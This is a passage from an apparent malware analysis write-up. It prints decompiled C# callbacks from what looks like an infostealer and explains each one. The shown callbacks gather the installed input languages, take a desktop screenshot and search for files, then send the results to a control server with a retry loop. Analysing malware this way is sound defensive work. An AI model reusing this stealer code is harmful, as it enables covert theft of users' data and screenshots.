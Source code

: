 (https://learn.microsoft.com/en-us/windows/win32/cimwin32prov/win32-process)

#### Callback 12
```csharp
public static void ываш9р34(ConnectionProvider connection, Entity2 settings, ref Entity7 result)
{
    Entity13 entity = connection.Id16(SystemInfoHelper.AvailableLanguages());
    if (entity == Entity13.Id3)
    {
        ываш9р34(connection, settings, ref result);
    }
    if (entity == Entity13.Id4)
    {
        throw new InvalidOperationException();
```
Simply retrieves all InputLanguages installed on the system and sends a list of them (as strings) to the server, with the same re-try mechanism.

#### Callback 13
```csharp
public static void длвап9345(ConnectionProvider connection, Entity2 settings, ref Entity7 result)
{
  if (settings.Id5)
  {
      Entity13 entity = connection.Id7(GdiHelper.GetImageBase());
      if (entity == Entity13.Id3)
      {
          длвап9345(connection, settings, ref result);
      }
      if (entity == Entity13.Id4)
      {
          throw new InvalidOperationException();
      }
  }
}
```
This function simply takes the user desktop’s picture and sends it to the server as a bitmap, with the same re-try mechanism.

#### Callback 14
```csharp
public static void ывал8н34(ConnectionProvider connection, Entity2 settings, ref Entity7 result)
{
  if (settings.Id6)
  {
      List<Entity5> result2 = FileScanning.Search(new RosComNadzor());
      Entity13 entity = connection.Id24(result2);
      if (entity == Entity13.Id3)
      {
          ывал8н34(connection, settings, ref result);
      }
      if (entity == Entity13.Id4)
      {
          throw new InvalidOperationException();
      }
  }
}
```
What is relevant here is **RosComNadzor**:
